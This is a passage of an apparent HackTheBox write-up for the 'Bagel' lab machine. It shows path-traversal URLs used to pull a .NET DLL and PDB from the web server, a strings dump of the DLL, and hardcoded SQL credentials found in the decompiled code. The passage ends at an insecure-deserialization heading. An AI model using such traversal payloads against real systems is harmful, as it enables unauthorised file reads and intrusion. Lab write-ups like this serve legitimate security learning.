 ```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel]
└──╼ $python3 order.py 
order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]
order #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]
order #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels] 
```

There is a reference to running a dll with dotnet to start the order app. Perhaps I'll find that and see what info it gives me. Heading to **http://bagel.htb:8000/?page=../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll** I can look through the dll. In that library is a binary named **.text** which I extract and look at the strings. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/Downloads]
└──╼ $strings .text 
.....
.....
$bagel_server.Bagel+<StartServer>d__6
qThe production team has to decide where the database server will be hosted. This method is not fully implemented.
AllowMultiple
	Inherited
AllowMultiple
	Inherited
RSDS
/opt/bg1/obj/Debug/net6.0/bagel.pdb
SHA256
_CorExeMain
mscoree.dll
```

Reference to another file. Let's keep following the rabbit hole. That file though, does not exist. In that directory, though that is different from the directory bagel.dll was found in, so I'll change it to **http://bagel.htb:8000/?page=../../../../../opt/bagel/obj/Debug/net6.0/bagel.pdb** and bingo!

<h1>User as phil</h1>

<h2>Insecure Deserialization</h2>

I'll use dnSpy to look through the .dll and try to find the logic running the order system. I come across some sql credentials in DB: <code>string text = "Data Source=ip;Initial Catalog=Orders;User ID=dev;Password=k8wdAYYKyhnjg3K";</code>. 
